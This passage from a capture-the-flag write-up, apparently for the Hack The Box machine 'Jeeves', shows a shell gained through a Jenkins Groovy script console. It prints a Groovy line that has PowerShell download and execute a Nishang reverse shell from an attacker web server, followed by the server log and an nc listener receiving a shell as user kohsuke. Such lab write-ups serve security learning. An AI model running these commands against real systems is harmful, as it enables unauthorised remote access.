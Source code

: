 ![image.png](/img/htb_img/Jeeves_img/05.png)

So, we have command execution.

## Shell as Kohsuke

I will use a reverse powershell from Nishang.

In the groovy script we put:

```bash
cmd = """ powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.X.X/rev.ps1') """
println cmd.execute().text
```

And we set up a listener and the web server hosting the Nishang reverse shell.

```bash
❯ python3 -m http.server 80          
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.63 - - [05/Jul/2025 16:41:28] "GET /rev.ps1 HTTP/1.1" 200 -

❯ nc -lvnp 4444                
listening on [any] 4444 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.63] 49677
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins>
```
